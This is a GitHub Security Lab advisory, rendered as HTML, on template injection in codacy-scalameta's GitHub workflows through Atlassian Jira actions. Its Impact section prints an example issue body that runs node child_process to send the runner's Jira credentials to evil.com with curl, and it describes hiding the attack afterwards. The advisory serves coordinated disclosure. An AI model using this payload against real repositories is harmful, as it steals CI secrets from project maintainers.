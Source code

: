 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">December 3, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-176: Template injection in the GitHub workflows of codacy-scalameta repository</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>Automatic GitHub workflows in <a href="https://github.com/codacy/codacy-scalameta">codacy-scalameta repository</a> are vulnerable to template injection from user comments.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/codacy/codacy-scalameta">codacy-scalameta GitHub repository</a></p>

<h2 id="tested-version">Tested Version</h2>

<p>Master branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-hidden-expression-expansion-of-input-parameters-passed-to-atlassiangajira-create-or-atlassiangajira-comment">Issue: Hidden expression expansion of input parameters passed to <code class="language-plaintext highlighter-rouge">atlassian/gajira-create</code> or <code class="language-plaintext highlighter-rouge">atlassian/gajira-comment</code></h3>

<p><a href="https://github.com/codacy/codacy-scalameta/blob/master/.github/workflows/comment_issue.yml"><code class="language-plaintext highlighter-rouge">Jira Add comment on issue</code> step in comment_issue.yml</a>, <a href="https://github.com/codacy/codacy-scalameta/blob/master/.github/workflows/create_issue.yml"><code class="language-plaintext highlighter-rouge">Jira Create issue</code> step in create_issue.yml</a> and <a href="https://github.com/codacy/codacy-scalameta/blob/master/.github/workflows/create_issue_on_label.yml"><code class="language-plaintext highlighter-rouge">Jira Create issue</code> step in create_issue_on_label.yml</a> workflows are vulnerable to template injection.</p>

<p><code class="language-plaintext highlighter-rouge">${{ github.event.issue.title }}</code>,<code class="language-plaintext highlighter-rouge">${{ github.event.issue.body }}</code> and <code class="language-plaintext highlighter-rouge">${{ github.event.comment.body }}</code> are used to format input values to <code class="language-plaintext highlighter-rouge">atlassian/gajira-create(comment)</code> actions. For example:</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="na">on</span><span class="pi">:</span>
  <span class="na">issues</span><span class="pi">:</span>
    <span class="na">types</span><span class="pi">:</span> <span class="pi">[</span> <span class="nv">opened</span> <span class="pi">]</span>
<span class="nn">...</span>
<span class="na">uses</span><span class="pi">:</span> <span class="s">atlassian/gajira-create@v2.0.0</span>
<span class="na">with</span><span class="pi">:</span>
    <span class="na">summary</span><span class="pi">:</span> <span class="s2">"</span><span class="s">[GH#${{</span><span class="nv"> </span><span class="s">github.event.issue.number</span><span class="nv"> </span><span class="s">}}]</span><span class="nv">  </span><span class="s">${{</span><span class="nv"> </span><span class="s">github.event.issue.title</span><span class="nv"> </span><span class="s">}}"</span>
    <span class="na">description</span><span class="pi">:</span> <span class="pi">|</span>
    <span class="s">${{ github.event.issue.body }}</span>
    <span class="s">----</span>
    <span class="s">{panel}</span>
    <span class="s">_[Github permalink |${{ github.event.issue.html_url }}]_</span>
    <span class="s">{panel}</span>
</code></pre></div></div>
<p>However the Atlassian actions have a hidden feature - they expand <code class="language-plaintext highlighter-rouge">{{}}</code> internally. This way when the issue title or body contains an expression in double curly braces it is evaluated by node.js in these actions.</p>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows arbitrary code execution in the context of GitHub runner. For example a user may create an issue with the title <code class="language-plaintext highlighter-rouge">It doesn't work on my machine</code> and the body</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{{</span> <span class="nx">process</span><span class="p">.</span><span class="nx">mainModule</span><span class="p">.</span><span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">child_process</span><span class="dl">'</span><span class="p">).</span><span class="nx">exec</span><span class="p">(</span><span class="s2">`curl -d @</span><span class="p">${</span><span class="nx">process</span><span class="p">.</span><span class="nx">env</span><span class="p">.</span><span class="nx">HOME</span><span class="p">}</span><span class="s2">/.jira.d/credentials http://evil.com`</span><span class="p">)</span> <span class="p">}}</span>
</code></pre></div></div>

<p>which will exfiltrate the secret Jira API token to the attacker controlled server. To make the attack less visible an attacker may modify the body of the issue to <code class="language-plaintext highlighter-rouge">Never mind my bad.</code> and close it.</p>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/14/2020: Report sent to vendor</li>
  <li>10/26/2020: Acknowledged by vendor</li>
  <li>10/29/2020: Issue fixed</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-176</code> in any communication regarding this issue.</p>

   